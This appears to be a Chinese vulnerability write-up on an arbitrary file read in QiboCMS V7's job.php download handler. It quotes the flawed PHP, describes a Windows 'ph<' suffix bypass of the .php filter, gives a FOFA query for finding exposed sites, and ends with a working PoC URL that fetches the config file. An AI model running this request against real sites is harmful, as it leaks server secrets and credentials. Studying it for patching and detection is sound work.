

齐博CMS V7 job.php 任意文件读取漏洞¶
漏洞描述¶
QiboCMS V7版本/do/job.php页面URL参数过滤不严，导致可以下载系统任意文件，获取系统敏感信息。
漏洞影响¶
齐博CMS V7
网络测绘¶
app="齐博软件-v7"
漏洞复现¶
漏洞分析 /inc/job/download.php
$url=trim(base64_decode($url));
$fileurl=str_replace($webdb[www_url],"",$url);
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
die("ERR");
}
if(!$webdb[DownLoad_readfile]){
$fileurl=strstr($url,"://")?$url:tempdir($fileurl);
header("location:$fileurl");
exit;
}
$webdb[upfileType] = str_replace(' ','|',$webdb[upfileType]);
if( $webdb[local_download] && is_file(ROOT_PATH.$fileurl) && eregi("($webdb[upfileType])$",$fileurl) ){
$filename=basename($fileurl);
$filetype=substr(strrchr($filename,'.'),1);
$_filename=preg_replace("/([\d]+)_(200[\d]+)_([^_]+)\.([^\.]+)/is","\\3",$filename);
if(eregi("^([a-z0-9=]+)$",$_filename)&&!eregi("(jpg|gif|png)$",$filename)){
$filename=urldecode(base64_decode($_filename)).".$filetype";
}
ob_end_clean();
header('Last-Modified: '.gmdate('D, d M Y H:i:s',time()).' GMT');
header('Pragma: no-cache');
header('Content-Encoding: none');
header('Content-Disposition: attachment; filename='.$filename);
header('Content-type: '.$filetype);
header('Content-Length: '.filesize(ROOT_PATH."$fileurl"));
readfile(ROOT_PATH."$fileurl");
exit;
}
url base64解码,匹配后缀 如果是php结尾的就退出 在windows下能用xxx.ph< 绕过 然后经过一系列的正则后会下载文件。
if( eregi(".php",$fileurl) && is_file(ROOT_PATH."$fileurl") ){
die("ERR");
}
漏洞POC¶
/do/job.php?job=download&url=ZGF0YS9jb25maWcucGg8
